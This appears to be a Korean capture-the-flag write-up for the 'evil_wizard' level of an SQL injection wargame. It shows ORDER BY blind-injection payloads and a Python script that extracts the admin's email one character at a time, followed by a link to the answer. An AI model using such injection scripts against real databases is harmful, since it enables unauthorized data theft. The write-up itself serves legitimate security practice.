### password length guessing
* 다음 query에서 admin이 rubiya보다 빨리 온다.
  * ?order=IF(score=50%20and%20length(email)=30,null,1)
### password guessing
* 다음의 코드를 이용하였다
    ```python
    import urllib.request
    import requests
    
    url='https://los.rubiya.kr/chall/evil_wizard_32e3d35835aa4e039348712fb75169ad.php'
    headers = { 'Cookie': 'PHPSESSID=mgh66e47p2g12f7tccsgq9p8rn' }
    pw=""
    
    for i in range (1,31):
        for j in range(48, 123):
            query='?order=IF(score=50%20and%20ascii(mid(email,{},1))={},null,1)'.format(i, j)
            r = requests.get(url + query, headers=headers)
            if r.text.find("<td>admin</td>") < r.text.find("<td>rubiya</td>"):
                pw = pw + chr(j)
                print('substr(password,1,{}) is '.format(i), pw)
                break
    ```
* [정답](https://los.rubiya.kr/chall/evil_wizard_32e3d35835aa4e039348712fb75169ad.php?email=aasup3r_secure_email@emai1.com)